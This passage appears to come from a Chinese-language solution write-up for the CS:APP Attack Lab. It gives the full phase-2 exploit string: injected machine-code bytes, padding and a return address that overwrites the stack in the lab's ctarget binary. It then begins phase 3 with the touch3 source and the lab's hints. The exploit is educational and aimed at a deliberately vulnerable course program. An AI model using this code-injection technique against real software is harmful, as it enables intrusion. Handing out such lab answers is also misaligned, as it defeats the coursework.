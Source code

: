 因此，对应的字节序列为：

```c
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3
```

而栈顶地址为：`0x5561dc78`。因此，最终的输入字符串为：

```c
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 // 栈顶地址
```

#### 任务三

任务描述：当函数getbuf返回后，让ctarget执行函数touch3，而不是继续执行函数test。

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char * sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

与任务二的区别在于，函数touch3的入参是一个字符串指针。

> 建议一：You will need to include a string representation of your cookie in your exploit string. The string should consist of the eight hexadecimal digits (ordered from most to least significant) without a leading “0x.” 

根据建议一可知，需要将cookie值（`59b997fa`）转换为十六进制，然后按照从高位到低位的顺序排列，且不包含前缀0x。

> 建议二：Recall that a string is represented in C as a sequence of bytes followed by a byte with value 0. Type “man ascii” on any Linux machine to see the byte representations of the characters you need.
